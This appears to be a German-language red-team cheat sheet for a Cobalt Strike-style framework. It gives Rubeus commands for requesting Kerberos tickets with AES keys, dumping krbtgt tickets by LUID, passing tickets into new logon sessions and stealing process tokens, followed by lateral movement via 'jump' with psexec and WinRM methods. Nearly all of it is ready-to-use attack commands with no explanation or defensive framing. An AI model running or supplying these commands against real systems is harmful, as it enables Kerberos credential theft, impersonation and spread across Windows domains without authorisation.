 ## Ticket von SYSTEM stehlen
## Einen neuen Prozess mit dem Ticket generieren
execute-assembly C:\pfad\Rubeus.exe asktgt /user:&#x3C;BENUTZERNAME> /domain:&#x3C;DOMÄNE> /aes256:&#x3C;AES-SCHLÜSSEL> /nowrap /opsec /createnetonly:C:\Windows\System32\cmd.exe
## Das Token von diesem Prozess stehlen
steal_token &#x3C;pid>

## Ticket extrahieren + Ticket weitergeben
### Tickets auflisten
execute-assembly C:\pfad\Rubeus.exe triage
### Interessantes Ticket nach LUID dumpen
execute-assembly C:\pfad\Rubeus.exe dump /service:krbtgt /luid:&#x3C;luid> /nowrap
### Erstellen Sie eine neue Anmeldesitzung, notieren Sie die LUID und die Prozess-ID
execute-assembly C:\path\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe
### Fügen Sie das Ticket in die generierte Anmeldesitzung ein
execute-assembly C:\path\Rubeus.exe ptt /luid:0x92a8c /ticket:[...base64-ticket...]
### Schließlich stehlen Sie das Token von diesem neuen Prozess
steal_token &#x3C;pid>

# Laterale Bewegung
## Wenn ein Token erstellt wurde, wird es verwendet
jump [Methode] [Ziel] [Listener]
## Methoden:
## psexec                    x86   Verwenden Sie einen Dienst, um ein Service EXE-Artefakt auszuführen
## psexec64                  x64   Verwenden Sie einen Dienst, um ein Service EXE-Artefakt auszuführen
## psexec_psh                x86   Verwenden Sie einen Dienst, um einen PowerShell-Einzeller auszuführen
## winrm                     x86   Führen Sie ein PowerShell-Skript über WinRM aus
## winrm64                   x64   Führen Sie ein PowerShell-Skript über WinRM aus

